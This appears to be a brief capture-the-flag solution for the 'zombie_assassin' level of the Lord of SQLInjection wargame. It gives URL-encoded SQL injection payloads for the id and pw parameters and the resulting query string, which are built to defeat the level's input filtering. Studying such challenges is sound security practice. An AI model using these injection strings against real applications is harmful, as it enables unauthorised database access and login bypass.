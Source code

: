 # Lord of SQLInjection zombie_assassin Solution

The payload will be for id: `%00`
for pw: `%0b--1||` 
and the whole query will look like this: `id=%00&pw=%0b--1||`